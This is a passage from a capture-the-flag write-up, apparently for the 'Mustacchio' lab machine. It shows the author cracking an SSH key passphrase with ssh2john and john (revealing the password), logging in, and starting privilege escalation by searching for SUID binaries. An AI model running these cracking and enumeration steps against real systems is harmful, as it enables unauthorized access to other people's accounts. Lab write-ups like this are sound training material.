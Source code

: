 We can now use this key to log in into the ssh server.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh barry@10.10.93.229 -i barry
Enter passphrase for key 'barry':
```

We need a passphrase... Let's bruteforce it with john.

```shell                                                                                                           
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh2john barry > hash                                                                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Desktop]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (barry)     
1g 0:00:00:01 DONE (2022-07-26 10:10) 0.8771g/s 2605Kp/s 2605Kc/s 2605KC/s urieljr.k..urielito1000
Use the "--show" op
```


Done ! 

Now, we can access to the SSH server.

# Privilege escalation 

We find an strange file named live_log in joe's home folder.

If we launch it we notice that it display the apache logs.

```shell
barry@mustacchio:/home/joe$ find / -perm /4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
barry@mustacchio:/home/joe$ 
```

